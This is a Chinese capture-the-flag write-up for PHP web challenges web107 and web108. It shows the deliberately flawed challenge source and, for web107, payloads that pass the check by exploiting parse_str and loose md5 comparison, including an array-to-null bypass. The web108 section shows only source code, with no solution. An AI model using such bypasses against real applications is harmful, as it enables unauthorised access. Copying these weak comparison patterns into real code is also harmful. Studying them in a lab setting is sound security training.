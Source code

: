 ### web107

```
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

} 
```

`parse_str`

> **parse_str** ( string `$encoded_string` [, array `&$result` ] ) : void
>
> 如果 `encoded_string` 是 URL 传递入的查询字符串（query string），则将它解析为变量并设置到当前作用域（如果提供了 `result` 则会设置到该数组里 ）。

这里我们传入v3=flag

`v1=flag=327a6c4304ad5938eaf0efb6cc3e53dc`（其实就是flag经过md5后的值）

**payload**

```
?v3=flag
POST:v1=flag=327a6c4304ad5938eaf0efb6cc3e53dc
```

另一种思路 md5一个数组的值为null，如果v2这个数组中的flag值也为null，null==null

```
?v3[]=
POST:V1=
```



### web108

```
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}
```
